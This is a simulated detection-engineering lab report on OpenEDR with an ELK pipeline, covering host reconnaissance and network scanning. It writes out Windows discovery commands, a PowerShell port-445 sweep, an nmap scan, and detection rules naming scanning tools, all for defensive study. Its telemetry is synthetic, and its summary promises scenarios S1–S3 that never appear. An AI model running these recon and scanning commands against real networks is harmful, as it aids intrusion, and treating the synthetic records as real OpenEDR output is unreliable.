# OpenEDR Lab – Part 1

## Setup & Detecting Early-Attack Recon and Social Engineering

**SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM**

Virtual lab simulation. No software was installed and no lab command was executed. All telemetry, console output and Kibana views are synthetic.

Student: ____________  ·  Student ID: ____________  ·  Date: 6 November 2026

## 1. Executive Summary

This report works through the OpenEDR Lab Part 1 assignment as a **virtual lab simulation**. No software was installed, no lab command was executed, no service was started and no screenshot was captured. Every console panel, JSON record and Kibana view is synthetic and labelled as such. The report shows what a correct submission would contain so that it can be studied and compared with the real exercise.

All five scenarios are covered: R1 and R2 (reconnaissance visible on the host) and S1, S2 and S3 (social engineering caught when the lure runs). A dataset of 91 synthetic events drives every query, figure and mock-up, so the records shown in Discover are the records the queries return.

| Scenario | Primary signal | Fidelity | Simulated result |
|---|---|---|---|
| S1 Weaponised document | Office app is parent of an interpreter | High | 1 hit, no threshold needed |
| R2 Network scanning | One process or source fans out to many targets | High for host-touching scans; blind beyond the host | 25 distinct IPs outbound, 24 distinct ports inbound |
| S2 Link and download cradle | Remote-fetch argument, plus outbound connection and file write | Medium-High | Exec, connection and file write correlated on PID 5512 |
| R1 Host reconnaissance | 5+ distinct discovery binaries, one user, 5 minutes | Medium | 8 distinct binaries for `student`; the administrator also trips the base rule |
| S3 Fake IT / ClickFix | `explorer.exe` starts an interpreter with suspicious arguments | Low-Medium | 2 of 5 paste variants detected |

Four findings go beyond restating the assignment. They are detailed in Appendix A.

- **The assignment's S3 simulation does not fire its own S3 query.** The command `Write-Host clickfix-lab` contains none of the listed markers. A marker-bearing benign variant is used here, and the original is kept as a recorded miss.
- **`"net view"` can never match `process.name`.** The value is a command, not a binary. It has been removed, and `net view` is detected through `net.exe`.
- **`net.exe` starting `net1.exe` inflates the R1 distinct count.** Four tools can look like five. The parent-tuned rule removes this.
- **KQL is case-sensitive on keyword and wildcard fields**, so `*-enc*` misses `-EncodedCommand`. Command-line detection is weaker than the query suggests, which supports the S3 argument in the assignment.

> **Status of this document.** The items the assignment requires as screenshots (Checkpoints 1 and 2, and the three Discover hits) appear here only as simulated mock-ups. They illustrate expected results and are not evidence that the lab was performed.

## 2. Lab Architecture

Telemetry flows one way, from the sensor on the endpoint to the analyst's browser. The endpoint runs the sensor and a log shipper. The monitoring host runs the collection, storage and search stack.

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM



**Figure 1.** Simulated lab architecture: Windows VM → OpenEDR → Filebeat → Logstash → Elasticsearch → Kibana.

| Component | Role in the lab | Where it runs |
|---|---|---|
| Windows 11 VM | The monitored endpoint and the only place simulations run | Guest VM |
| OpenEDR agent (`edrsvc`) | Kernel-level process, file, registry and network monitors. Writes newline-delimited JSON to `C:\ProgramData\edrsvc\log\output_events` | Guest VM |
| Filebeat | Tails the output folder, parses each NDJSON line and forwards it to Logstash | Guest VM |
| Logstash | Receives Beats traffic on port 5044 and maps raw fields to the ECS-style names used by the queries | Monitoring host |
| Elasticsearch | Stores and indexes events on port 9200 | Monitoring host |
| Kibana | Discover, alert rules and dashboards on port 5601 | Monitoring host |

OpenEDR only sees activity on the host it runs on. OSINT, WHOIS lookups, social-media mapping and email in transit all happen elsewhere and leave no endpoint trace. Each scenario therefore targets the first moment an attack touches the host.

## 3. Virtual Environment Configuration

All names, addresses and versions below are fictional or assumed. The `192.168.56.0/24` subnet follows the assignment's example. `203.0.113.10` and `198.51.100.0/24` are reserved documentation ranges (RFC 5737).

| Item | Endpoint VM | Monitoring host |
|---|---|---|
| Hostname | `WIN11-LAB01` | `soc-mon` |
| Operating system | Windows 11 (assumed; OpenEDR's docs say only "Windows endpoints") | Linux with Docker Engine |
| Host-only adapter | `192.168.56.101/24` | `192.168.56.1/24` (`HOST_IP`) |
| NAT adapter | `10.0.3.15/24`, enabled **only** for S2 | Not used |
| Software | OpenEDR agent, Filebeat 8.15.3 | Elasticsearch, Logstash and Kibana 8.15.3 in Docker |
| Resources | 2 vCPU, 4 GB RAM | 2+ CPU, 6+ GB RAM for Docker |
| Lab user | `LAB\student` | Not applicable |

| Port | Service | Direction |
|---|---|---|
| 5044/tcp | Logstash Beats input | VM to monitoring host |
| 9200/tcp | Elasticsearch HTTP | Local to monitoring host |
| 5601/tcp | Kibana | Local browser on monitoring host |

The brief specifies an isolated host-only network, but S2 needs a public web page. The simulation resolves this with a NAT adapter that is enabled only for S2. `203.0.113.10` stands in for `example.com`, whose real address will differ.

**Simulated run schedule, 5 November 2026 (UTC).**

| Time | Activity | Event IDs |
|---|---|---|
| 09:40 | Baseline single `ipconfig` | CTL-01 |
| 10:02 | Checkpoint 2 Notepad test | CK-01 |
| 10:14 | R1 discovery sweep | R1-01 to R1-11 |
| 10:31 | R2 outbound sweep | R2O-01 to R2O-25 |
| 10:38 | R2 inbound scan from the monitoring host | R2I-01 to R2I-24 |
| 10:52 | S1 macro document | S1-01, S1-02 |
| 11:07 | S2 PowerShell cradle | S2-01 to S2-03 |
| 11:19 | S2 LOLBin variant | S2-04, S2-05 |
| 11:26 | Benign software update (false-positive case) | FP-01, FP-01b, FP-01c |
| 11:32 | S3 paste variants | S3-01 to S3-05, FP-02 |
| 12:10 | Administrator troubleshooting (false-positive case) | FP-A1 to FP-A5 |

## 4. Backend Setup Simulation

This section restates assignment section 2 as a simulated procedure. The commands are the assignment's own and **were not run**. The "simulated outcome" column states what a healthy result would look like.

| Step | Command (not executed) | Simulated outcome |
|---|---|---|
| 2.1 Get the code | `git clone https://github.com/ComodoSecurity/openedr.git` | Repository available. `SettingELK.md` points to the `deviantony/docker-elk` package for the stack |
| 2.2 Prepare the host | `echo 'vm.max_map_count=262144' \| sudo tee /etc/sysctl.d/99-openedr.conf` | `vm.max_map_count = 262144` persists after reboot |
| 2.3 Start the stack | `docker compose up -d` | Three services start. Elasticsearch must be healthy before Kibana connects |
| 2.4 Verify services | `curl http://localhost:9200`, `curl -I http://localhost:5601` | Cluster JSON returned; Kibana answers |
| 2.5 Record ingest endpoint | `ip addr` | `HOST_IP` recorded as `192.168.56.1`, ingest endpoint `192.168.56.1:5044` |

## 5. Endpoint Setup Simulation

This section restates assignment section 3. Nothing here was installed.

| Step | Command or action (not executed) | Simulated outcome |
|---|---|---|
| 3.1 Snapshot | Create VM snapshot `pre-agent` | Known-good rollback point |
| 3.2 Install agent | Run the OpenEDR MSI, then `Get-Service edrsvc` | Service status `Running` |
| 3.3 Confirm recording | `Get-ChildItem C:\ProgramData\edrsvc\log\output_events` | JSON event lines present |
| 3.4 Configure Filebeat | Edit `filebeat.yml`, run `test config` and `test output`, start the service | `Config OK`; `talk to server... OK` |
| 3.5 Create data view | Kibana → Stack Management → Data Views | Data view `logstash-openedr-*`, time field `@timestamp` |

> ASSUMED CONFIGURATION – ILLUSTRATIVE, NOT DEPLOYED

```yaml
filebeat.inputs:
  - type: filestream
    id: openedr
    enabled: true
    paths:
      - C:\ProgramData\edrsvc\log\output_events\*
    parsers:
      - ndjson:
          target: ""
          overwrite_keys: true
          add_error_key: true
output.logstash:
  hosts: ["192.168.56.1:5044"]
```

**Figure 2.** filebeat.yml from assignment step 3.4, with HOST_IP filled in.

## 6. Telemetry Pipeline

**What is verified and what is assumed.** OpenEDR does not publish a schema for its JSON output, and no public sample event body was found. The queries therefore use the ECS-style names from the assignment, which itself says to "swap in your real field names". Each name below has a provenance tag so that nothing assumed reads as fact.

| Tag | Meaning |
|---|---|
| **D** | Documented in the OpenEDR repository or the assignment |
| **L** | Name seen in a real OpenEDR log field listing (community thread; structure and values not shown) |
| **S** | Found in OpenEDR source as a policy binding or enum. Not confirmed as a JSON output key |
| **A** | Assumed for this simulation. Confirm against one real event in Discover |

| Role | Query field | Assumed raw source | Tag |
|---|---|---|---|
| Log location | Not applicable | `C:\ProgramData\edrsvc\log\output_events` | D |
| Event type | `openedr.baseEventType` | `baseEventType` | L for the name; A for code meanings |
| Category | `event.category`, `event.action` | Derived in Logstash from `baseEventType` | A |
| Device | `host.name` | `deviceName` | L for the source; A for the mapping |
| User | `user.name`, `user.domain` | `sessionUser` | L for the source; A for the mapping |
| Timestamp | `@timestamp` | `time` | L for the source; A for format |
| Process name | `process.name` | Basename of `childProcess.imageFile.abstractPath` | S for `imageFile.abstractPath`; A for the nesting |
| Command line | `process.command_line` | `childProcess.cmdLine` | S for `cmdLine`; A for the nesting |
| Parent process | `process.parent.name` | Basename of `processes[0].imageFile.abstractPath` | L for `processes`; A for the array order |
| Network peer | `source.ip`, `source.port`, `destination.ip`, `destination.port` | `connection.local.*`, `connection.remote.*` | S for the paths; A for the output keys |
| Direction | `network.direction` | Derived from event code (`LLE_NETWORK_CONNECT_IN`, `_OUT`) | S |
| File path | `file.path` | `file.abstractPath` | S for the path; A for the output key |

The numeric codes used here are an inference. `events.hpp` defines `LLE_PROCESS_CREATE = 1`, `LLE_FILE_CREATE = 3`, `LLE_NETWORK_CONNECT_IN = 0x27` (39) and `LLE_NETWORK_CONNECT_OUT = 0x28` (40). No source confirms that the JSON `baseEventType` value is this enum.

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM

```json
{
  "version": "ASSUMED",
  "type": "ASSUMED",
  "baseEventType": 1,
  "baseType": 1,
  "customerId": "00000000-0000-0000-0000-000000000000",
  "endpointId": "00000000-0000-0000-0000-000000000101",
  "deviceName": "WIN11-LAB01",
  "sessionUser": "LAB\\student",
  "time": 1793872931000,
  "processes": [ { "pid": 2284, "imageFile": { "abstractPath": "C:\\Windows\\explorer.exe" } } ],
  "childProcess": {
    "pid": 4108,
    "cmdLine": "\"C:\\Windows\\System32\\notepad.exe\"",
    "imageFile": { "abstractPath": "C:\\Windows\\System32\\notepad.exe" }
  }
}
```

**Figure 3.** Synthetic raw OpenEDR record for the Checkpoint 2 Notepad test. The field layout is assumed, as tagged above. (Event CK-01)

> ASSUMED CONFIGURATION – ILLUSTRATIVE, NOT DEPLOYED

```ruby
input { beats { port => 5044 } }
filter {
  if [baseEventType] == 1 {                      # assumed: LLE_PROCESS_CREATE
    mutate { add_field => {
      "[event][category]" => "process"
      "[event][action]" => "process_create"
      "[process][command_line]" => "%{[childProcess][cmdLine]}"
      "[process][executable]" => "%{[childProcess][imageFile][abstractPath]}"
      "[process][parent][executable]" => "%{[processes][0][imageFile][abstractPath]}"
    } }
  } else if [baseEventType] in [39, 40] {        # assumed: LLE_NETWORK_CONNECT_IN / _OUT
    mutate { add_field => { "[event][category]" => "network" } }
    # map connection.local.* and connection.remote.* to source.* and destination.*
    # set network.direction from the event code
  } else if [baseEventType] == 3 {               # assumed: LLE_FILE_CREATE
    mutate { add_field => { "[event][category]" => "file" } }
  }
  ruby { code => '
    ["[process][executable]", "[process][parent][executable]"].each do |f|
      v = event.get(f)
      t = f.sub("[executable]", "[name]")
      event.set(t, v.split("\\").last.downcase) if v
    end
  ' }
  date { match => ["time", "UNIX_MS"] }          # assumed format
}
output {
  elasticsearch {
    hosts => ["http://elasticsearch:9200"]
    index => "logstash-openedr-%{+YYYY.MM.dd}"
  }
}
```

**Figure 4.** Illustrative Logstash pipeline. The right-hand raw paths are the assumptions tagged above.

> ASSUMED CONFIGURATION – ILLUSTRATIVE, NOT DEPLOYED

```json
PUT _index_template/openedr-lab
{
  "index_patterns": ["logstash-openedr-*"],
  "template": {
    "settings": { "number_of_replicas": 0 },
    "mappings": { "properties": {
      "process": { "properties": {
        "name": { "type": "keyword" },
        "command_line": { "type": "wildcard" },
        "parent": { "properties": { "name": { "type": "keyword" } } }
      } },
      "source": { "properties": { "ip": { "type": "ip" } } },
      "destination": { "properties": {
        "ip": { "type": "ip" }, "port": { "type": "integer" }
      } }
    } }
  }
}
```

**Figure 5.** Illustrative index template. Create it before the first event is indexed.

**How the mapping affects the queries.** Three properties decide whether the KQL behaves as written.

- **Default dynamic mapping breaks command-line wildcards.** Strings become `text` with a `.keyword` sub-field that ignores values over 256 characters. Wildcards on `text` match individual tokens, so `*Invoke-WebRequest*` can fail, and long encoded commands are dropped from `.keyword`. The template above maps `process.command_line` as `wildcard` to avoid this.
- **`keyword` and `wildcard` matching is case-sensitive in KQL.** Logstash lower-cases `process.name` and `process.parent.name` so that `WINWORD.EXE` matches `"winword.exe"`. Command lines keep their original case, which has consequences in S3.
- **A KQL query is a per-document filter.** It cannot count distinct values, apply a time window or join events. R1 and R2 need an alert rule or aggregation, and S2 correlation needs EQL or a pivot by the analyst. Both are specified where they apply.

## 7. Checkpoint 1 – Simulated Backend Evidence

The assignment's Checkpoint 1 requires Kibana to load, all three services to be healthy, and `HOST_IP:5044` to be recorded.

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM

```text
$ docker compose ps
NAME                        IMAGE                     STATUS                  PORTS
docker-elk-elasticsearch-1  docker-elk-elasticsearch  Up 7 minutes (healthy)  0.0.0.0:9200->9200/tcp
docker-elk-logstash-1       docker-elk-logstash       Up 6 minutes (healthy)  0.0.0.0:5044->5044/tcp
docker-elk-kibana-1         docker-elk-kibana         Up 6 minutes (healthy)  0.0.0.0:5601->5601/tcp
```

**Figure 6.** Container status. Assumes healthchecks are defined; a stack without them shows "Up" with no "(healthy)".

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM

```text
$ curl -s http://localhost:9200
{
  "name" : "elasticsearch-lab",
  "cluster_name" : "docker-cluster",
  "version" : { "number" : "8.15.3", "build_flavor" : "default" },
  "tagline" : "You Know, for Search"
}

$ curl -s "http://localhost:9200/_cluster/health?pretty"
{
  "cluster_name" : "docker-cluster",
  "status" : "green",
  "number_of_nodes" : 1,
  "active_shards_percent_as_number" : 100.0
}
```

**Figure 7.** Elasticsearch root and cluster health responses. With security enabled, curl also needs credentials (-u elastic).

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM

```text
$ curl -I http://localhost:5601
HTTP/1.1 200 OK
content-type: text/html; charset=utf-8
kbn-name: kibana

$ ip -4 addr show vboxnet0 | grep inet
    inet 192.168.56.1/24 brd 192.168.56.255 scope global vboxnet0

HOST_IP recorded: 192.168.56.1   ingest endpoint: 192.168.56.1:5044
```

**Figure 8.** Kibana availability and recorded ingest endpoint. A real Kibana may answer with a 302 redirect to its login page, which also means it is running.

## 8. Checkpoint 2 – Simulated Telemetry Evidence

The assignment's Checkpoint 2 requires live events in Discover, each with a process name, command line and timestamp, and one event generated on demand by opening Notepad.

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM

```text
PS> Get-Service edrsvc | Format-List Status, Name, DisplayName
Status      : Running
Name        : edrsvc
DisplayName : EDR Agent Service

PS> Get-ChildItem C:\ProgramData\edrsvc\log\output_events
Mode    LastWriteTime        Length  Name
----    -------------        ------  ----
-a----  05/11/2026 10:02     184320  events_20261105.log
```

**Figure 9.** OpenEDR service and output folder on the endpoint.

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM

```text
PS> .\filebeat.exe test config
Config OK

PS> .\filebeat.exe test output
logstash: 192.168.56.1:5044...
  connection...
    parse host... OK
    dns lookup... OK
    addresses: 192.168.56.1
    dial up... OK
  TLS... WARN secure connection disabled
  talk to server... OK

PS> Get-Service filebeat | Select-Object Status, Name
Status   Name
------   ----
Running  filebeat
```

**Figure 10.** Filebeat configuration test, output test and service status.

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM

```json
{
  "@timestamp": "2026-11-05T10:02:11.000Z",
  "host": { "name": "WIN11-LAB01" },
  "user": { "name": "student", "domain": "LAB" },
  "event": { "category": "process", "action": "process_create" },
  "openedr": { "baseEventType": 1 },
  "process": {
    "pid": 4108,
    "name": "notepad.exe",
    "executable": "C:\\Windows\\System32\\notepad.exe",
    "command_line": "\"C:\\Windows\\System32\\notepad.exe\"",
    "parent": { "pid": 2284, "name": "explorer.exe", "executable": "C:\\Windows\\explorer.exe" }
  }
}
```

**Figure 11.** Normalised Checkpoint 2 document as stored in Elasticsearch. (Event CK-01)

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM



**Figure 12.** Discover-style mock-up: the on-demand Notepad event has arrived with process name, command line and timestamp.

## 9. Scenario R1 – Host Reconnaissance

| Attribute | Detail |
|---|---|
| Scenario ID and name | R1 – Host-Based Reconnaissance |
| Objective | Show that a cluster of ordinary built-in commands, run close together, reveals an attacker orienting after landing |
| MITRE ATT&CK | T1033, T1087, T1016, T1018, T1082, T1057 |
| Fidelity | **Medium.** Needs a threshold and parent context to control noise |

**What OpenEDR observes.** Each command is a process-create event with a known binary, a full command line and a parent process. Any single command is normal administration. The signal is the burst of different tools from one user, and the parent that launched them.

| Binary | Example | ATT&CK |
|---|---|---|
| `whoami.exe` | `whoami /all` | T1033 System Owner/User Discovery |
| `net.exe`, `net1.exe` | `net user`, `net group` | T1087 Account Discovery |
| `nltest.exe`, `net.exe` | `nltest /dclist:`, `net view` | T1018 Remote System Discovery |
| `arp.exe` | `arp -a` | T1018 Remote System Discovery |
| `ipconfig.exe` | `ipconfig /all` | T1016 System Network Configuration Discovery |
| `systeminfo.exe` | `systeminfo` | T1082 System Information Discovery |
| `tasklist.exe` | `tasklist` | T1057 Process Discovery |

**Benign simulation command** (from the assignment, not executed):

```powershell
whoami /all; net user; net group "Domain Admins" /domain 2>$null
nltest /dclist: 2>$null; systeminfo; ipconfig /all; arp -a; net view 2>$null; tasklist
```

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM

```json
{
  "@timestamp": "2026-11-05T10:14:13.300Z",
  "host": { "name": "WIN11-LAB01" },
  "user": { "name": "student", "domain": "LAB" },
  "event": { "category": "process", "action": "process_create" },
  "openedr": { "baseEventType": 1 },
  "process": {
    "pid": 6312,
    "name": "nltest.exe",
    "executable": "C:\\Windows\\System32\\nltest.exe",
    "command_line": "\"C:\\Windows\\system32\\nltest.exe\" /dclist:",
    "parent": {
      "pid": 6120,
      "name": "powershell.exe",
      "executable": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe"
    }
  }
}
```

**Figure 13.** Example R1 record: nltest.exe launched from the PowerShell console. (Event R1-06)

**Relevant fields.** `event.category`, `process.name`, `process.command_line`, `process.parent.name`, `user.name`, `@timestamp`.

**Detection query (KQL).**

```kql
event.category : "process" and process.name : ("whoami.exe" or "net.exe" or "net1.exe"
  or "nltest.exe" or "systeminfo.exe" or "ipconfig.exe" or "arp.exe"
  or "tasklist.exe" or "hostname.exe")
```

This differs from the assignment's query in two ways. `"net view"` is removed because `process.name` holds a binary name, and the `event.category` base filter is added. The query only selects candidates. It does not implement the threshold.

**Threshold configuration.** Use a Kibana Security *Threshold* rule with the query above, group by `user.name`, set the count field to `process.name` with 5 or more unique values, and run it every 1 minute with a 4-minute additional look-back. The equivalent ES|QL is shown below.

```esql
FROM logstash-openedr-*
| WHERE event.category == "process"
  AND process.name IN ("whoami.exe", "net.exe", "net1.exe", "nltest.exe",
      "systeminfo.exe", "ipconfig.exe", "arp.exe", "tasklist.exe", "hostname.exe")
| STATS distinct_bins = COUNT_DISTINCT(process.name)
    BY user.name, window = BUCKET(@timestamp, 5 minutes)
| WHERE distinct_bins >= 5
```

Both forms have limits. Scheduled look-backs and fixed buckets are not true sliding windows, so a burst straddling a boundary can be split. `COUNT_DISTINCT` is approximate at high cardinality. An attacker can also pace commands more slowly than the window.

**Tuned variant.** The parent filter removes the administrator's `cmd.exe` session and removes `net1.exe`, whose parent is `net.exe`.

```kql
event.category : "process" and process.name : ("whoami.exe" or "net.exe" or "net1.exe"
  or "nltest.exe" or "systeminfo.exe" or "ipconfig.exe" or "arp.exe"
  or "tasklist.exe" or "hostname.exe")
  and process.parent.name : ("powershell.exe" or "wscript.exe" or "cscript.exe"
  or "winword.exe" or "excel.exe")
```

**Expected matching records.**

| Rule | Records | Result per user |
|---|---|---|
| Base KQL | 17 (11 simulation, 5 administrator, 1 baseline) | Candidates only |
| Base threshold | Same | `student` 8 → **alert**; `itadmin` 5 → **alert (false positive)** |
| Tuned threshold | 9 | `student` 7 → **alert**; `itadmin` no records |

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM



**Figure 14.** Distinct discovery binaries over the R1 burst. net1.exe brings the base rule to threshold about 12 seconds early.

**Why the detection works.** People rarely run many different discovery tools within a minute, while post-exploitation scripts commonly do. Volume across different tools separates the burst from routine use of one tool.

**Limits of the parent filter in this simulation.** The assignment's sweep is typed into a PowerShell console, so the parent is `powershell.exe` even though a person ran it. On a real host, `powershell.exe` as parent is suggestive but does not prove automation. Check the grandparent, and treat `wscript.exe`, `cscript.exe` or an Office parent as much stronger.

**Potential false positives.** Administrators and help desk staff troubleshooting (shown by FP-A1 to FP-A5), inventory and monitoring scripts, and software installers. An administrator working in a PowerShell console will still trip the tuned rule. Allowlisting admin accounts removes that noise but also creates a blind spot if one of those accounts is compromised.

## 10. Scenario R2 – Network Scanning

| Attribute | Detail |
|---|---|
| Scenario ID and name | R2 – Scanning Seen From the Endpoint |
| Objective | Detect scanning at the two points a host sensor can see it: launched from the host, and arriving at the host |
| MITRE ATT&CK | T1046 Network Service Discovery, T1018 Remote System Discovery, T1595 Active Scanning |
| Fidelity | **High for scans touching this host; blind beyond it** |

T1046 and T1018 fit the outbound case. T1595 is a Reconnaissance-tactic technique, so it applies only to the inbound case, where the host is the target of scanning.

**What OpenEDR observes.** Outbound, the agent attributes a burst of connection events to one process. Inbound, it records connection attempts to local ports from one source. It cannot see a scan between two other machines.

**Benign simulation commands** (not executed; host-only subnet only):

```powershell
# Outbound sweep, from the assignment
1..25 | ForEach-Object { Test-NetConnection -ComputerName 192.168.56.$_ -Port 445 `
    -WarningAction SilentlyContinue } | Out-Null

# Inbound, run from the monitoring host against the VM only
nmap 192.168.56.101
```

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM

```json
{
  "@timestamp": "2026-11-05T10:31:14.000Z",
  "host": { "name": "WIN11-LAB01" },
  "user": { "name": "student", "domain": "LAB" },
  "event": { "category": "network", "action": "network_connect_out" },
  "openedr": { "baseEventType": 40 },
  "process": {
    "pid": 6120,
    "name": "powershell.exe",
    "executable": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe"
  },
  "network": { "direction": "outbound", "transport": "tcp" },
  "source": { "ip": "192.168.56.101", "port": 50107 },
  "destination": { "ip": "192.168.56.7", "port": 445 }
}
```

**Figure 15.** Example outbound attempt from the sweep. (Event R2O-07)

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM

```json
{
  "@timestamp": "2026-11-05T10:38:16.800Z",
  "host": { "name": "WIN11-LAB01" },
  "user": { "name": "SYSTEM", "domain": "LAB" },
  "event": { "category": "network", "action": "network_connect_in" },
  "openedr": { "baseEventType": 39 },
  "process": { "pid": 4, "name": "System", "executable": "System" },
  "network": { "direction": "inbound", "transport": "tcp" },
  "source": { "ip": "192.168.56.1", "port": 41013 },
  "destination": { "ip": "192.168.56.101", "port": 445 }
}
```

**Figure 16.** Example inbound attempt from the scan. Owning process and user are assumed. (Event R2I-13)

**Relevant fields.** `event.category`, `network.direction`, `process.name`, `process.pid`, `source.ip`, `destination.ip`, `destination.port`, `@timestamp`.

**Detection queries (KQL).** Outbound:

```kql
event.category : "network" and network.direction : "outbound"
  and process.name : ("powershell.exe" or "nmap.exe" or "crackmapexec.exe")
```

Inbound:

```kql
event.category : "network" and network.direction : "inbound"
```

`network.direction` is a derived field, because OpenEDR encodes direction in the event type rather than a field. The inbound query has no process filter, since the owning process for inbound traffic may be `System` or absent.

**Threshold configuration.** Run these as Threshold rules with a 1-minute window. Outbound: group by `process.name` and `process.pid`, 20 or more unique `destination.ip`. Inbound: group by `source.ip`, 20 or more unique `destination.port`. ES|QL for the outbound case:

```esql
FROM logstash-openedr-*
| WHERE event.category == "network" AND network.direction == "outbound"
| STATS distinct_ips = COUNT_DISTINCT(destination.ip)
    BY process.name, process.pid, window = BUCKET(@timestamp, 1 minute)
| WHERE distinct_ips >= 20
```

**Expected matching records.**

| Rule | Records | Result |
|---|---|---|
| Outbound KQL | 27 (25 sweep, S2-02, FP-01b) | Candidates only. The unrelated PowerShell downloads match too |
| Outbound threshold | Same | `powershell.exe` PID 6120: 25 distinct IPs → **alert** |
| Inbound KQL | 25 (24 scan, 1 RDP control) | Candidates only |
| Inbound threshold | Same | `192.168.56.1`: 24 distinct ports → **alert**; `192.168.56.5`: 1 port, no alert |

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM



**Figure 17.** Distinct targets per actor in one minute, against the threshold of 20.

**Why the detection works.** Normal software talks to a few known endpoints, while a scanner fans out across many. Counting distinct targets measures that shape directly and does not depend on the tool's name.

**Visibility limits and assumptions.**

- **The sweep needs `destination.ip`, not `destination.port`.** It hits 25 hosts on one port, so distinct ports equals 1 and a port-based rule never fires.
- **Timing is optimistic here.** The simulation spaces attempts 2 seconds apart. `Test-NetConnection` is sequential and can wait much longer on silent addresses, so a real run may fall below 20 per minute. Widen the window or lower the threshold if so.
- **Failed connections may not be logged.** It is unconfirmed whether OpenEDR records attempts that never complete.
- **Inbound coverage is the weakest part.** Probes to closed ports, or those dropped by the Windows firewall, may never reach a point where the sensor records them. The assignment rates this "partially" visible. The 24 ports shown are a best case, and a real scan may show only the few listening ports, staying under 20.
- **The process-name filter is easily bypassed.** A renamed scanner escapes it, so a production rule should key on the distinct count alone and allowlist known fan-out software.

**Potential false positives.** Vulnerability scanners, asset discovery agents, backup and monitoring software, browsers on content-heavy pages, and peer-to-peer update services.

